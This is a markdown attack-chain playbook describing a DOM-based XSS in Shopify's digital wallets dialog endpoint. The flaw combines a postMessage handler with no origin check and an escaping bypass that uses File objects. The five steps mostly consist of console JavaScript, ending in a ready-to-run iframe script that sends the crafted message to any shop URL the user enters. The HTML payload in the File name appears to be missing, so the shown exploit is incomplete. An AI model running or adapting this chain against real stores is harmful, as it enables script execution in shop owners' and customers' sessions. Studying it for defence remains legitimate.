

# DOM-based XSS via Structured Clone Bypass in Shopify Digital Wallets Dialog

Multi-stage attack chain demonstrating exploitation of a DOM-based XSS in Shopify's /:id/digital_wallets/dialog endpoint through postMessage listener without origin validation and escaping bypass using structured clone objects.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools (e.g., Chrome DevTools)
- JavaScript Console

### Target Environment

- Shopify shop domain (e.g., example.myshopify.com)
- Access to load iframes from the attacker's domain
- No authentication required

### Initial Access Requirements

- Public access to the target Shopify shop
- Ability to create and load an iframe pointing to /:id/digital_wallets/dialog (e.g., /1337/digital_wallets/dialog)
- Network access to the target domain

## Detailed Attack Procedures

### Step 1: Analyze JavaScript Code
procedure: [[procedures/Analyze-Shopify-Digital-Wallets-JavaScript]]

**Objective**: Reverse-engineer the minified JavaScript to identify the postMessage listener and DOM insertion logic without origin validation.

**Instructions**: Open the target endpoint in a browser, inspect the loaded JavaScript, and search for postMessage event listeners. Use the browser console to execute and examine code snippets like the message handler initialization.

Execute [[commands/initialize-postmessage-handler]] in the console to understand the handler:

```javascript
this._messageHandler=function(event){if(event.data){if(event.data.type && event.data.digitalWalletsDialog){c(i, event.data.type, event.data.payload);}}} this._localWindow.addEventListener("message",this._messageHandler)
```

Then analyze functions like [[commands/analyze-message-handler]] and [[commands/analyze-dom-insertion]] to trace payload processing.

**Expected Output**: Identification of vulnerable functions (e.g., c, p, f, m) that insert payload data into the DOM without proper origin checks.

**Success Indicators**:
- PostMessage listener found without event.origin validation
- DOM insertion points identified for lineItems

### Step 2: Test Legitimate PostMessage Payloads
procedure: [[procedures/Test-Legitimate-PostMessage-Payloads]]

**Objective**: Verify the dialog's functionality by sending valid payloads to observe DOM rendering behavior.

**Instructions**: Load the endpoint in an iframe or directly, then use the browser console to send test messages.

Send a basic payload using [[commands/send-basic-postmessage]]:

```javascript
window.postMessage({type:"DigitalWalletsDialog:change",digitalWalletsDialog:true,payload:{title:"placeholder",button:"placeholder"}},"*");
```

Follow with a lineItems test using [[commands/send-lineitems-postmessage]]:

```javascript
window.postMessage({ type: "DigitalWalletsDialog:change", digitalWalletsDialog: true, payload: { title: "placeholder", button: "placeholder", lineItems: [{name: "product",amount: "$13.37",message: "added to cart" }], },}, "*");
```

**Expected Output**: Dialog renders with title, button, and a product table from lineItems without errors.

**Success Indicators**:
- DOM updates with payload data
- No errors in console; confirms processing path

### Step 3: Identify Escaping Function Bypass
procedure: [[procedures/Identify-Escaping-Function-Bypass]]

**Objective**: Examine the escaping function to find weaknesses, particularly with non-enumerable properties in cloneable objects.

**Instructions**: In the console, define and test the escaping function [[commands/define-escaping-function]]:

```javascript
function u(payload){for(var idx in payload){if(payload.hasOwnProperty(idx)){ payload[idx]= Ve.escapeHtml(payload[idx]);}} return payload;}
```

Test normal escaping with [[commands/test-normal-escaping]]:

```javascript
result =u({message:"'\"<b>"}); result.message
```

Then test bypass with objects like Error using [[commands/test-error-bypass]]:

```javascript
result =u(new Error("'\"<b>")); result.message;
```

Verify File object properties with [[commands/create-file-object]]:

```javascript
let f =new File(["data"],"controlledvalue"); f.name; f.hasOwnProperty("name");
```

**Expected Output**: Normal strings escaped (e.g., &#39;&quot;&lt;b&gt;), but Error/File properties remain unescaped since !hasOwnProperty('name').

**Success Indicators**:
- Escaping skips non-enumerable properties
- File objects clone via postMessage without escaping 'name'

### Step 4: Craft Malicious File Object Payload
procedure: [[procedures/Craft-Malicious-File-Object-Payload]]

**Objective**: Create a structured cloneable File object with XSS payload in the 'name' property to bypass escaping.

**Instructions**: In the console, construct the malicious File using [[commands/create-malicious-file]]:

```javascript
new File([""],"")
```

Integrate into a payload similar to legitimate tests, ensuring it goes into lineItems array for DOM insertion via functions f and m.

**Expected Output**: File object with unescaped 'name' containing .

**Success Indicators**:
- Payload clones correctly via postMessage
- 'name' property retains malicious HTML

### Step 5: Execute XSS via Iframe PostMessage
procedure: [[procedures/Execute-XSS-via-Iframe-PostMessage]]

**Objective**: Load the vulnerable endpoint in an iframe and send the malicious payload to trigger XSS.

**Instructions**: From an attacker-controlled page, prompt for target and create iframe using [[commands/execute-iframe-exploit]]:

```javascript
let shop =prompt("Enter a Target Shop URL:","https://bored-engineering-whitehat-2.myshopify.com"); let frame = document.createElement("iframe"); frame.src =`${shop}/1337/digital_wallets/dialog`; frame.style.display ="none"; frame.onload=()=>{ frame.contentWindow.postMessage({type:"DigitalWalletsDialog:change",digitalWalletsDialog:true,payload:{title:"placeholder",button:"placeholder",lineItems:[new File([""],"")],},},"*");} document.body.appendChild(frame);
```

**Expected Output**: Alert box pops up with the shop's document.domain on successful XSS execution.

**Success Indicators**:
- Alert triggers without user interaction
- JavaScript executes in the context of the Shopify domain

## Attack Chain Summary

### Key Achievements

1. Bypassed postMessage origin validation for cross-origin message injection.
2. Exploited escaping flaw using File object's non-enumerable 'name' property.
3. Achieved arbitrary JS execution on any Shopify shop, escalatable to admin actions.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
